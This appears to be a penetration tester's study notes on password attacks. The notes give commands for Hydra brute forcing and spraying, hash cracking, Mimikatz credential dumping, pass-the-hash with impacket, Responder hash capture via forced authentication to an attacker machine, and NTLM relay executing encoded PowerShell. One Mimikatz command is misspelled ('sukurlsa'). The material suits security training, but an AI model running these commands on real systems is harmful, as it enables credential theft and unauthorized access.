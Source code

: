 ```yaml
---
layout: blank
---
```


### Hydra
- Can be used on a lot of things
- SSH:
	- `sudo hydra -l {username} -P {password_list} -s {port} ssh://{IP}
	- Lets say we found a password, and want to spray it everywhere (like rdp)
		- `sudo hydra -L {username_list} -p {password} rdp://{IP}`
- HTTP:
	- Provide a username, password list, IP, endpoint to post to, ^PASS^ for the password used, and a string in the HTTP of the failed result
	- `sudo hydra -l {username} -P {password_list} {IP} http-post-form "/{endpoint}:{param1}=^PASS^:Login failed. Invalid"`
		- So, for example: `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:user=admin&password=^PASS^:Login failed. Invalid"`
	- Could also likely just use ffuf (with a filter on size if app returns 200)

### Passwords
- AES is symmetric, RSA is asymmetric
- GPUs crack like a thousand times faster than CPUs

### Finding Passwords
- Just use noseyparker. Can scan file systems, cloned repositories, and even entire github organizations.
    - `noseyparker scan {repo/directory}`
    - `noseyparker scan --github-org={org}`
    - Show results with `noseyparker report`
- Make sure to save or delete the existing `datastore.np` before starting a new scan

### Password Cracking
- Mutating Wordlists:
	- https://github.com/frizb/Hashcat-Cheatsheet?tab=readme-ov-file
	- Sometimes wordlists might not match the minimum requirements of a password for a location being tested, so the wordlist can drop all of the unneeded passwords
	- `hashcat -r "$1 c $!" {password_list}` will capitalize the first letter of each password, append "1" to the end of each password, and then append "!" to the end of that password
		- Putting these rules into a file with newlines will create a new password for each newline, adding that lines modifications to that password
		- Hashcat provides some rules in `/usr/share/hashcat/rules/`, like `rockyou-30000`
			- They always seem to use `best64.rule`
	- These modifications can be stored in files and used when cracking--for example:
		- `hashcat -m 0 {hash} {password_list} -r {modification_file} --force`
- Ensure to find the type of hash before cracking to save time
- Extracting hashes:
	- Many methods, but here's a novel one:
		- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` will search for kdbx files (KeePass files) containing hashes
		- keepass2john {keepass_database_file} to extract hash
- Determining hash type:
	- `hashcat --help` will list a lot of info about types of hashes, so if we know where the hash is from, we can look it up here with `hashcat --help | grep -i "{identifier}`
		- This should return the hashcat mode for the hash, which is a number like 13400
- Cracking the hash:
	- `hashcat -m {hashcat_mode (e.g. 13400)} {hash} {wordlist} -r {mutation} --force`
		- Increase speed with `-O -w 4 --opencl-device-types 1,2`

### SSH Private Key Passphrase
- `ssh2john {private RSA SSH key file} > ssh.hash` will put the hash in a crack-able format
- `hashcat -m 22921 ssh.hash {password_list} -r {mutation} --force` will crack the SSH hash
	- 22921 comes from looking up \$6$ in the `hashcat --help` response
	- However, this might result in an error due to this cipher not being supported by hashcat
- John the Ripper 
	- Can handle the error above
	- Can use mutation rules, placed at the end of /etc/john/john.conf
	- `john --wordlist={password_list} --rules=sshRules {hash}` to crack

### NTLM
- NT LAN Manager or Net-NTLMv2
- Windows stores hashed passwords in the Security Account Manager (SAM) database file
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) can extract password hashes from memory as a basic user
	- Prebuilt version [here](https://github.com/gentilkiwi/mimikatz/releases)
	- Can dump plaintext passwords straight as an Administrator
	- Run with `.\mimikatz.exe`
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sukurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
- Crack NTLM
	- `hashcat -m 1000 {hash} {password_list} -r {mutations} --force`
- **Passing NTLM**
	- Don't necessarily need to crack the NTLM hash to use it
		- NTLM hashes aren't salted between sessions and remain static
	- Many tools available:
		- SMB enumeration: `smbclient` and `crackmapexec`
		- Command execution: `impacket` -> `psexec.py\/wmiexec.py`
		- `Mimikatz` can also pass-the-hash
	- Example - accessing SMB share with `smbclient`
		- `smbclient \\\\{IP}\\{SMB_share_endpoint} -U Administrator --pw-nt-hash {hash_from_Mimikatz}`
	- Example2 - getting a shell as an Administrator with `psexec.py`
		- Searches for a writeable share and uploads an exe to it, registers exe as a Windows service and starts it
		- `impacket-psexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}` 
		- `impacket-wmiexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}`
		- `impacket-smbexec -hashes lmhash:nthash {domain}/{user}@{IP}`
		- `impacket-atexec -hashes lmhash:nthash {domain}/{user}@{IP} {command}`
- Cracking Net-NTLMv2
	- Useful when we are an unprivileged user
	- We have the target start authentication against a machine we own, and capture the hash used during the authentication process
	- *Responder* is a good tool for capturing Net-NTLMv2 hashes
		- Sets up an SMB server that handles auth process and prints hashes
		- `sudo responder -I {network interface (like tap0)}` to run responder on any given network interface
	- Getting the target server to contact our server is tricky
		- With RCE, it's easy, just run something like `dir \\{Our_machine_IP}\share` on the machine running the responder server
			- Then, crack the hash with hashcat 5600
		- Without RCE, there are a couple different techniques
			- If there's a file upload on a webserver on the target, we can use a UNC path (`\\{our_IP}\share\xyz)` and the application may try to reach out for the file
				- This might not work if the slashes are the wrong way, so try something like `//{IP}/share.php` as the filename
			- I'd assume local file inclusion would have the same result
	- **Relay Attack**
		- Lets say you're in a situation where you're on a local admin account, but it's an admin on a different machine. Additionally, we can't crack the hash from the admin. 
		- Instead of printing the hash, forward it along using *ntlmrelayx*
		- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {IP} -c "powershell -enc {base64_command}"`
			- This will set up an SMB relay to the IP with a powershell command to run
			- Run SMB `dir` from the machine we own against the *ntlmrelayx* machine, which will immediately pass the hash received onto the target machine